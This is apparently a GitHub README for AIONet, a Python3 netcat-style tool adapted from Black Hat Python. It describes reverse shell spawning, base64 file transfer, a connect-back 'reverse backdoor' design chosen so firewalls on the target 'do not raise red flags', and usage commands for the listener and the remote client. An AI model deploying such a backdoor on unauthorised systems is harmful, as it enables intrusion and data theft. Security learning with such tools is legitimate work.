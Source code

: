 # All-In-One Network Utility
AIONet was built as a multipurpose tool to replace netcat. Written in Python3, AIONet offers features like reverse shell spawning, file upload and file download.  
The idea for this tool was obtained from chapter 2 of Black Hat Python by Justin Seitz. This program aims to update BHP's tool to provide features like class-based structure, Python3 support and error checking. A detailed explanation of the differences between the two can be found at the end of this document.

## Dependencies
* Python3 (>=3.6)

## Download
### Option 1: Using `git clone`
```
git clone https://github.com/aarole/aionet.git
cd aionet/
```

### Option 2: Using `wget`
```
wget -O aionet.py https://raw.githubusercontent.com/aarole/aionet/master/aionet.py
```

### Option 3: Using Docker
An AIONet listener can be created by using an existing Docker image or by building your own.  

#### 3.1: Getting the image
##### 3.1.1: Using Docker Hub
```
docker pull e1ora/aionet
```

##### 3.1.2: Building the image using the repository's Dockerfile
```
git clone https://github.com/aarole/aionet.git
cd aionet/
docker build -t e1ora/aionet .
```

#### 3.2: Running the container
```
docker run --rm -it -v /path/to/some/directory:/opt -p PORT:PORT aionet -l -p PORT
```
* /path/to/some/directory
  * Directory (a) containing the files you may want to upload, or (b) to which you may want to download files
  * Directory path should be on your Docker host
* PORT
  * Port on which the listener will listen
  * Use the same port in all three locations

## Usage
```
On host:           python3 aionet.py -p PORT -l
On remote machine: python3 aionet.py -t TARGET -p PORT

Options:
-t target, --target target IP address of the remote listener
-p port, --port port       If used with -l, port where listener is to be created; else, port where remote listener exists
-l, --listen               Create a listener on the port defined using -p
-h, --help                 show this help message and exit
```

## Updates
* Program structure overhauled to allow for easy extension
  * Created individual classes for the server (listener/host) and the client (target/remote machine)
* Updated program to use reverse backdoors
  * Listener is created on the physical machine and remote target connects to it
  * Opening a port on the host ensures that firewalls on the remote target do not raise red flags
* Replaced getopt with argparse
* Moved file manipulation (download and upload) to post-shell operations
  * Used the base64 library to encode files during upload/download
  * Base64 encoding allows for easy transfer of files (especially non-text [pdf, png, jpg] files)
* Used the os library to allow for usage of cd and rm commands
* Added error-checking during file upload/download using SHA256 hashes (provided by hashlib)
  * Hash is sent from the source computer along with the message
  * The destination hashes the file locally
  * If the hashes match, the file is downloaded/uploaded; else, the file is deleted

## TODO
* Implement logging

## Known issues
* File download
  * ~~Non-text files (png, jpg, pdf) cause errors when downloading them~~
  * ~~Files are partially downloaded and a part of the base64 encoded file is printed~~
  * Fix: Switched from length-based recv to sentinel-based recv
* Exit condition
  * ~~exit command is not handled properly on the server~~
  * Fix: Moved handle() call in Server class to outside the while loop
